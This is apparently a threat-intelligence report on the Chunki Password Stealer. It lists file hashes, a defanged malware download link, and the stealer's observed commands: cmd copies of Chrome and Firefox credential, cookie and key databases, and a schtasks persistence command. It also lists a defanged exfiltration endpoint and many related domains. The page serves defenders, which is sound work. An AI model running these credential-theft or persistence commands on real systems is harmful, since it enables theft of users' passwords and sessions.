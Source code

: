 # Observed malicious IOCs for Chunki Password Stealer aka (ChunkiPWS)

### Date of first occurrence

27-03-2022

### Description:

A victim visits a video streaming platform that entices the victim into downloading a malicious installation package.  All of the installation packages appear to have came from mediafire.  When the installation package runs Chunki Password Stealer (ChunkiPWS) executes.  The stealer, extracts victim's browser data, credentials and OS information gathering.  The collected information is then uploaded to a remote server. Persistence is set as a scheduled tasks that periodically executes Autoit scripts.  The name ChunkiPWS was given due to its file size of the installation package. 

### Sample Analysis
https://app.any.run/tasks/a5d03b82-b444-4849-b9ac-6a68a4a507b1/

### Malicious Installation Package

Sample of ChunkiPWS available:

```
https[:]//www.mediafire[.]com/file/xqj110ce9lm2vyu/Open__The__File__Setup.zip/fileapplication/zipapplication/
```

```
Installation Package:

File Name: Open__The__File__Setup.zip
Sha256Hash: a7ce9cd6cd40ff21ede8736327a95eb8f0ad193a943dd091c9d6ec91cc02bef2 

Decompressed Archive:

File Name: Install__Latest__Download.zip
Sha256Hash: ae68059ea44da06c59ee4c59dd616614aa9f59fa5b461ef0acbb94967e5f1b56

File Name: 'Password Is  =   1122.txt'

Decompressed Executable:

File Name: File__Setup.exe
File Size: 671M
Sha256Hash: 88b1fb836125454ac4c3553b3414a5a67096a105f5fd573a2822b84ee553bca5
```

### Obstacles

The file size of ChunkiPWS ranges around 670-700mb in size.  This makes dynamic analysis challenging.  This is due to the maximum size limitation of 50-100mb.  EDR such as CrowdStrike had experienced issues downloading the file.

### Observed activity of `File__Setup.exe`

A 4-digit random generated directory is created. For example: 

```
Directory names:

C:\users\<profile>\appdata\local\temp\2300
C:\users\<profile>\appdata\local\temp\4492
C:\users\<profile>\appdata\local\temp\5753
C:\users\<profile>\appdata\local\temp\5777
C:\users\<profile>\appdata\local\temp\7090
C:\users\<profile>\appdata\local\temp\8727
```

Within the randomly generated folder, a directory structure is created. Directory names were named afters its targeted Software / Browser.

```
Directory Name 
---- 

_Brave 
_Chrome 
_Edge 
_Files 
_Firefox 
_Opera 
_Wallet 
_Information.txt 
_Screen_Desktop.jpeg
```

### Data Collection:

The following commands were used to extract Browser data such as stored credentials and information gathering.

```
_Chrome 

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Web Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_webdata.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Login Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_logins.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Network\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"
```

```
_Firefox

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\formhistory.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\formhistory.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\cookies.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\cookies.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\signons.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\signons.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\logins.json" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\logins.json"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key3.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key3.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key4.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key4.db"
```

```
_Files

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\Desktop\*.txt" "C:\Users\<profile>\AppData\Local\Temp\2300
```

```
_Information.txt

[OS, Local Date and Time, Username, CPU, RAM, GPU, Display Resolution]
```

```
_Screen_Desktop.jpeg

Screenshot of the desktop of the time of infection
```

### Persistence

Persistence is set via a scheduled task which is designed to execute AutoITv3 scripts.

```
schtasks /create /tn \Service\Diagnostic /tr """"C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.exe""" """C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.dat"""" /st 00:01 /du 
```

https://www.virustotal.com/gui/file/237d1bca6e056df5bb16a1216a434634109478f882d3b1d58344c801d184f95d/detection

### Exfiltration

The extracted data is then compressed using zip and then uploaded onto the attackers server via a POST request.

```
http[:]//sables23[.]top/index.php

data: Content-Disposition: form-data; name="file";filename="19696.zip"

19696.zip contains the exfiltrated data
```

### Related Domains Observed

```
5a5vmh.top
rnkj09.top
85kvie.top
vcev5c.top
hwh75t.top
rmgs2r.top
kzwor6.top
0m9rxw.top
63rx85.top
nn2ms2.top
n41n1a.top
pap44w.top
o08a6d.top
qor499.top
hezwde.top
bw9e2z.top
utebcd.top
wwa4tu.top
uboys5.top
cno42s.top
bcjl1h.top
e6in0v.top
bd7tlu.top
thyx30.top
o8hpwj.top
1bqroa.top
ibngww.top
dgjpgy.top
odmtu3.top
c6tjvl.top
va3ibn.top
sk8r54.top
zmn16h.top
kzhzuc.top
vbfyit.top
rxmbsm.top
2gbbja.top
wrd4fo.top
httsps.top
305iot.top
3t3hyf.top
n80yab.top
vgxcci.top
5m2n7x.top
dmvute.top
ean5e7.top
kml2o2.top
859rkn.top
tsrwj3.top
laugk2.top
p3tt2t.top
4bx196.top
yl1wg6.top
kt70uk.top
gs2ka7.top
0cgaez.top
bvbg1l.top
p7k7t4.top
ac7zvz.top
lxvmhm.top
5p76tw.top
308an1.top
x9ap4h.top
glg1i0.top
ucrw57.top
r21wmw.top
06j7o0.top
```
